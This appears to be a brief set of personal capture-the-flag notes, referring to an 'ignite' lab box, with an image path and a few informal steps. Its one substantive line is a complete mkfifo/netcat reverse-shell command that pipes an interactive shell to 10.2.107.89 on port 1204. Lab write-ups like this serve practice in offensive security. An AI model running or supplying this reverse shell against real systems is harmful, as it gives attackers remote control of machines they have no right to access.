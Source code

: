 time to start the vulnerability of the capstones of the uh
-

1.) checkign out the page
- no bs this is the same ctf as the ignite one so this should just be quick notes
- use this command after using the python scipt
    - rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.107.89 1204 > /tmp/f

